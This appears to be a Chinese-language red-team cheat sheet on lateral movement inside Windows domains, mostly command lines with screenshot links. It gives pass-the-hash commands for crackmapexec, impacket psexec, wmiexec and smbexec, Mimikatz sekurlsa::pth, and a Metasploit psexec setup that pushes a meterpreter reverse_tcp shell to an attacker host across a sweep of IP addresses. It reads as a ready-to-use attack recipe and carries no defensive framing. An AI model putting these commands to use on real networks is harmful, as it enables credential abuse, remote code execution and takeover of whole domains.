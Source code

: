 ![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388849534-74ad73ee-1312-44b6-8145-7caeae725d61.png#height=143&id=rPiyH&originHeight=258&originWidth=753&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=416)

**crackmapexec 域横向**
```
crackmapexec smb 192.168.93.30-u administrator -H ab89b1295e69d353dd7614c7a3a80cec -d whoamianony.org -x whoami


crackmapexec smb 192.168.93.30-u administrator -H ab89b1295e69d353dd7614c7a3a80cec -d whoamianony.org -x ipconfig
```

<a name="xdcBp"></a>
## wmiexec\smbexec hash横向
```
./psexec.py aufeng/administrator@192.168.10.131 -hashes AADA8EDA23213C025AE50F5CD5697D9F:6542D35ED5FF6AE5E75B875068C5D3BC
```

proxychains python3 wmiexec.py -hashes 获得的hash ./用户名@域控ip

```
python smbexec.py -hashes :b5674dc1274c9bfb792c10137b92d8ef wangdi/wdadmin@192.168.233.10
```
<a name="TdK9u"></a>
## 本地横向 wmiexec.py 开启wmi服务，135端口
本地挂socks代理只后本地横向操作<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388849800-7062d08e-a046-4718-8a79-d896cf6dd840.png#height=166&id=DFaVM&originHeight=222&originWidth=1183&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=887)<br /> <br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388850326-16f71bc6-27f4-4a58-b928-55a564a66b42.png#height=157&id=Eo8X1&originHeight=209&originWidth=1186&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=890)
<a name="6Jm7S"></a>
## Mimikatz （域内横向）ntlm hash传递
privilege::debug    #先提权<br /> <br />#使用域管理员administrator的NTLM哈希值对域控进行哈希传递攻击,域用户administrator在域管理员组中，但是问题在于，弹出来的框只是建立了ipc连接。可以通过建立的ipc连接进行一个横向也是ok的<br />sekurlsa::pth  /user:administrator /domain:aufeng.com  /ntlm:f74c26fba12d9025f202c10b4702db31<br /> ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616167165935-3facc296-1ce2-4118-bfbb-d367acc9b1c7.png#height=470&id=HLCIc&originHeight=626&originWidth=1028&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39370&status=done&style=none&title=&width=771)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616167275863-4427358c-1c75-4d3f-889b-4399a8015bad.png#height=374&id=LwaDm&originHeight=498&originWidth=1170&originalType=binary&ratio=1&rotation=0&showTitle=false&size=28801&status=done&style=none&title=&width=878)<br />**有时候可能无法横向ip、只能dir横主机名。例如：**<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627005970258-c4654e36-5627-4e0f-ae87-64dfafbddab1.png#height=255&id=oCPhv&originHeight=510&originWidth=1135&originalType=binary&ratio=1&rotation=0&showTitle=false&size=338916&status=done&style=none&title=&width=567.5)
<a name="yK9i1"></a>
## (可批量)MSF横向SMB的PSEXEC模块使用 hash传递
LM:NTLM   LM不重要，随便就行，主要是NTLM一定要正确<br />msf > use  exploit/windows/smb/psexec<br />msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp<br />msf exploit(psexec) > set lhost 192.168.10.27<br />msf exploit(psexec) > set rhost 192.168.10.14-255<br />msf exploit(psexec) > set smbuser Administrator<br />msf exploit(psexec) > set smbpass<br />815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了<br />msf exploit(psexec) > exploit<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626252061973-261d16d0-25d2-43f1-b62b-2bf7742f2ac7.png#height=546&id=ggqkQ&originHeight=728&originWidth=1200&originalType=binary&ratio=1&rotation=0&showTitle=false&size=858054&status=done&style=none&title=&width=900)
